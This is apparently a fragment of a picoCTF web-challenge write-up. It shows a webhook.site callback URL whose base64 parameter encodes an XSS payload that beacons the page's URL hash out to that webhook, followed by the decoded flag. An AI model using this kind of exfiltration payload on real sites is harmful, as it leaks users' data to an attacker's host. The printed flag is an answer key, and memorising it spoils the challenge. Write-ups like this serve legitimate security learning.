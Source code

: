 
Then we got base64 request from webhook:
```https://webhook.site/09e19f10-a88e-405c-b6c1-4870e0c497d5/?e=eyJyZWNpcGUiOltbIkV4cGxvaXQiLCJXZWIgRGVzaWduIl1dLCJ4c3MiOiJuZXcgUGVuZGluZ0dldEJlYWNvbignaHR0cHM6Ly93ZWJob29rLnNpdGUvMDllMTlmMTAtYTg4ZS00MDVjLWI2YzEtNDg3MGUwYzQ5N2Q1Lz9lPScgKyB3aW5kb3cubG9jYXRpb24uaGFzaC5zbGljZSgxKSwge3RpbWVvdXQ6IDEwMDB9KTsiLCJmbGFnIjoicGljb0NURntsaXR0bGVfYWxjaGVteV93YXNfdGhlXzBnX2dhbWVfZG9lc19hbnlvbmVfcmVtZW1iM3JfOTg4OWZkNGF9IGJ0dyBjb250YWN0IG1lIG9uIGRpc2NvcmQgd2l0aCB1ciBzb2x1dGlvbiB0aGFua3MgQGVoaHRoaW5nXG4ifQ==```

Decode => Flag: picoCTF{little_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a}





 
















